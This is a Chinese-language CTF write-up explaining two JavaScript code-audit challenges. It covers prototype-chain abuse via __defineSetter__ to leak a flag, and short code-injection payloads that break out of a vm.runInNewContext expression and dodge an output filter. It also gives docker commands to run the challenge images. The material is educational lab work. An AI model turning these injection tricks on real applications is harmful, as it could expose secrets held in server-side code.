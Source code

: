 ```yaml
---
title: 两道有趣的JS代码审计题目
published: 2023-08-12
description: ''
image: ''
tags: ['编程', '安全', 'CTF', 'JS', '代码审计']
category: '安全'
draft: false
lang: ''
---
```

 两道有趣的JS代码审计题目



<!-- ![image](./attachments/bafybeib6gtdgp6urih4dt7zt6mfca6ertgpezp4t3s2la64tkgubde43qu.png) -->


 converter

题目是一个网页，如下：

<!-- ![DraggedImage](./attachments/bafkreicxq6a63vkab5pc7j3dfqohlyes54pytwerdfziok4ivddg4tqtye.png) -->


POST两个参数， `Input` 即输入的数据， `converter` 代表选择的转换器

<!-- ![DraggedImage-1](./attachments/bafkreia77bzvog2ei6qopoku3sodshr4e6m5nth7e53gmvnhfmtpxd4bha.png) -->




分析源码，可以看到有三个 `converter` ，即代表着三种不同的encode方式，其中 `flagConverter` 里面有flag

但是限制了 `request.body.converter`，不能出现 `FLAG`

```ts
  if (request.body.converter.match(/[FLAG]/)) {
    throw new Error("Don't be evil :)");
  }

  if (request.body.input.length < 20) {
    throw new Error('Too short :(');
  }

  if (request.body.input.length > 1000) {
    throw new Error('Too long :(');
  }
```

这里研究了之后确实不存在突破办法了🤣

 分析

注意到真正调用 `converter` 的代码， 我们输入的两个参数 `req.body.converter` 和 `req.body.input`，其中 `req.body.converter` 是作为 `converters` 的属性名，即我们可以控制 `conveters`的任意一个属性（除了这个属性名不能含有 `FLAG` 之外）

> 通过 `await new Promise` 代码是在尝试将回调式的异步操作转换为Promise风格的操作，以便使用 await 来等待执行结果，可以忽略

并且我们发现， `converters` 是一个 const 类型，并且每次执行 `encode` 操作，都会对 `converters` 做一次赋值（理论上直接写死就行了吧，没必要每次请求都这么干）

```ts
  converters['base64'] = base64Converter;
  converters['scrypt'] = scryptConverter;
  converters[`FLAG_${request.session.sessionId}`] = flagConverter;

  const result = await new Promise((resolve, reject) => {
    converters[request.body.converter](request.body.input, (error, result) => {
      if (error) {
        reject(error);
      } else {
        resolve(result);
      }
    });
  });
```

而我们知道，在JS中，虽然一个对象的属性看上去只有那么点，但是由于JS特有的原型链继承关系，就会导致 `Object` 对象的属性也被继承过来（因此可以逐一去对这些属性做尝试）


<!-- ![DraggedImage-2](./attachments/bafkreif5wbhegg25onmmjwsq7qaifyfunmtb3lthkb2benff6hku62nkxe.png) -->



其中这个 `__defineSetter__ ` 属性很有意思，有点类似反射，可以给对象的一个属性做一个代理，正常写法其实是这样的：

```ts
const obj = {
  a: 1
};

// 使用 __defineGetter__
obj.__defineSetter__('a', function(res) {
	console.log("get res: " + res);
});
```

如果我们定义了 setter ，那么后续赋值的时候， 赋值等式的右边值就会作为 setter 函数的第一个参数传进来

<!-- ![DraggedImage-3](./attachments/bafkreievolezdquoz4oe2tfskwynqusjhjegevsvrpix7ywnuot6rmqunu.png) -->


所以，当我们输入 `input= FLAG_***SESSION*** ` （input并没有不允许输入FLAG字符串），`converter = __defineSetter__ ` 时，代码变为：

```ts
converters["__defineSetter__"]("FLAG_***SESSION***", (error, result) => {
    if (error) {
        reject(error);
    } else {
        resolve(result);
    }
});
```

这样当我们重写完对象的 `FLAG_***SESSION***`  对应的 setter 时，这个网页先不动！

后续再新开一个网页去访问，此时触发：

```ts
converters[`FLAG_${request.session.sessionId}`] = flagConverter;
```

可以看到 `flagConverter` 就会作为第一个参数传入到函数

```ts
(error, result) => {
    if (error) {
        reject(error);
    } else {
        resolve(result);
    }
}
```

此时 result 的结果自然就是 error , 即 `flagConverter.toString()` 的结果

回到我们的第一个网页，此时就能看到：

<!-- ![DraggedImage-4](./attachments/bafkreifvhhnyeyudnsmj2orujo7zkcl3qn7hvkfyuudsqq2g5nqpvolroi.png) -->


 Kantan Calc


这道题目也很有意思，是我见过的JS代码审计中比较新颖的，巧妙地用沙箱逃逸来误导你，实际利用的是JS很常见的一个特性

CTF中的经典计算器前端：
<!-- ![DraggedImage-5](./attachments/bafkreifatxcx4sxx6wowh3ydcpkvwl6fgjorfawfu76mbzdonxsbx2ziha.png) -->



看代码：

```ts
app.get('/', function (req, res, next) {
  let output = '';
  const code = req.query.code + '';
  console.log(code.length); // 打印输入的代码长度
  if (code && code.length < 30) {
    try {
      const result = vm.runInNewContext(`'use strict'; (function () { return ${code}; /* ${FLAG} */ })()`, Object.create(null), { timeout: 100 });
      output = result + '';
      if (output.includes('flag')) {
        output = 'Error: please do not exfiltrate the flag';
      }
    } catch (e) {
      output = 'Error: error occurred';
    }
  } else {
    output = 'Error: invalid code';
  }

  res.render('index', { title: 'Kantan Calc', output });
});
```

关键代码就是在 `vm.runInNewContext` 那一行，即输入的内容会被当做代码执行，比如输入 `2*2`

实际在vm中执行的代码就是：

```ts
'use strict';
(
	function(){
		return 2*2; /* flag{fake_flag} */
	}
)()
```

实际就是一个立即执行函数，但是这里要注意：

```ts
vm.runInNewContext('', Object.create(null))
```

`Object.create(null)` 实际上是创建了一个没有任何原型链的对象，是一个绝对“干净”的对象

因此，最常用的一种沙箱逃逸是没有办法了（我就懒得写了）

 解法

在 JavaScript 中，可以通过将函数体转换为字符串来获取函数体：

```ts
function a() {}
console.log(a+'')
// "function a() {}"
```

这样就可以让代码内的flag注释信息打印出来了，但是就算打印出来还是会被后面的if给拦截，这应该怎么办呢？

答案就是数组，利用函数 toString 弱类型转换，返回char数组（绕开if检测），同时保证payload长度小于30

那么我们先直接闭合前面的函数，然后开一个新的函数，即输入：

```ts
},function p(){return[...p+1]
```

那么此时：

```ts
'use strict';
(
	function(){
		return 
	},
	function p(){return[...p+1]; /* flag{fake_flag} */
	}
)()
```

那么第二个函数p执行的时候，先执行加法，抓为字符串，然后解构为数组，就绕开了检测

在看wp的时候还发现有另一种思路：

```ts
[...arguments[0]+0]})(a=>{
```

实际执行的代码：

```ts
'use strict';
(
	function(){
		return [...arguments[0]+0]}
)
(a=>{
			; /* flag{fake_flag} */
	}
)()
```

等于先定义了一个函数

```ts
(
	function(){
		return [...arguments[0]+0]
	}
)
```

然后调用的时候传递了一个参数， `(a => {;/*flag{fake_flag}*/})`，那么自然这个函数就会被当做参数 `arguments` 传递进去，同样的道理（不过这种情况会报错了，因为返回的是个数组无法继续函数调用）


 总结

这两道题目也都打包Docker镜像了，有需要的可以自取：

```ts
docker run -d --restart=always -p 3000:3000 rayepeng/kantan_calc:latest
docker run -d --restart=always -p 3000:3000 rayepeng/convert:latest  
```

其实JS的很多特性都是可以用来出题的，但是却很少像PHP那样，有各种变种且好玩的代码审计题，后续准备在这里多思考下，尝试自己也出几道有趣的结合JS特性的审计题目




[]()